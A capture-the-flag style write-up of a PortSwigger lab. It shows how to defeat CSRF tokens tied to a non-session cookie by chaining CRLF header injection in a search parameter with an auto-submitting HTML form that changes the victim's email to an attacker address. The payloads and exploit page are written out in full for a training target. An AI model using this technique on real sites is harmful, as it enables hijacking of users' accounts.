 # CSRF where token is tied to non-session cookie

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie), you'll learn: CSRF where token is tied to non-session cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215012927.png)

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013305.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013311.png)

**In the previous labs, we found that the email change functionality is vulnerable to CSRF, and it uses tokens to try to prevent CSRF attacks:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type=hidden name=csrf value=hMX6roXxx4LPkQUpRCr5tJFKc5s6NzJM>
    <button class='button' type='submit'> Update email </button>
</form>
```

**Let's try to update our email address, and intercept the request via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013457.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013515.png)

**As you can see, this time it also include a cookie called `csrfKey`, and a parameter `csrf`!**

**Hmm... What if I change the value of `csrfKey`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013824.png)

It outputs `Invalid CSRF token`!

**And what if I change the value of `session`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013933.png)

**It redirects me to `/login`, which is log out the current session, and also set a new `session` cookie!**

**Now, let's login as user `carlos`, and try to swap `csrfKey` cookie and `csrf` parameter from user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014255.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014302.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014310.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014327.png)

**Hmm? The `csrfKey` cookie and `csrf` parameter is exactly the same as user `wiener`!**

**The only difference is the `session` cookie!** 

This proves that the back-end's CSRF protection doesn't integrate into the session system.

Now, we still couldn't change victim's email address, as **the `csrfKey` is a cookie**! And we couldn't simply add our own cookie value.

**After poking around, I found that the home page's search box is interesting:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215015509.png)

**Let's search something, and intercept the request in Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215015526.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215015606.png)

**When we click the `Search` button, it'll send a GET request to `/` with the parameter `search`.**

**Also, when we sent the request, it'll set a new cookie value: `LastSearchTerm=<seach_parameter_value>`!**

That being said, we can set any cookie value as we wanted.

**But how can we abuse this?**

**In [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie), it said:**

> To send multiple cookies, multiple **`Set-Cookie`** headers should be sent in the same response.

Hmm... That means we can set multiple cookies?

**After I google this a little bit, I found this [Medium blog](https://medium.com/@protostar0/crlf-injection-allow-cookie-injection-in-root-domain-xss-812cd807ba5b):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215020317.png)

**Wait. CRLF injection allow cookie injection?**

**And after googled about CRLF injection, I found this post on [GeeksforGeeks](https://www.geeksforgeeks.org/crlf-injection-attack/):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215020426.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215020439.png)

**So if the web application is vulnerable, we can injection `%0d%0a` (`\r\n`) in the request??**

Let's try that!

**Payload:**
```
/?search=anything%0d%0aSet-Cookie:csrfKey=CRLF%3b%20SameSite=None
```

> Note: The `%3b%20` means `; `, and we need `SameSite` is set to `None`.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022524.png)

**Nice! We've successfully set a new cookie!**

**Now, let's craft a HTTP form that performs CSRF attack on changing email!**
```html
<html>
	<head>
		<title>CSRF-5</title>
	</head>
	<body>
		<form action="https://0a38003c0466e7dbc41f2f84009200ac.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		    <input type="hidden" name="csrf" value="hMX6roXxx4LPkQUpRCr5tJFKc5s6NzJM">
		</form>
		<img src="https://0a38003c0466e7dbc41f2f84009200ac.web-security-academy.net/?search=anything%0d%0aSet-Cookie:csrfKey=cYKdlnK4AuLbcbZBymW44Vizt6UkQpRK%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body>
</html>
```

**Let's break it down:**

- We've added a CSRF token value from user `wiener`
- We've added a new `img` tag, and it's forcing a user to set a new `csrfKey` cookie, which is user `wiener` value. Also, when the image is failed to load, submit the form automatically

**Armed with above information, we can try to use the `exploit server` to change victim's email address!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215021528.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022639.png)

**After clicked `Store` button, click `Deliver exploit to victim`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022715.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022724.png)

We did it!

# What we've learned:

1. CSRF where token is tied to non-session cookie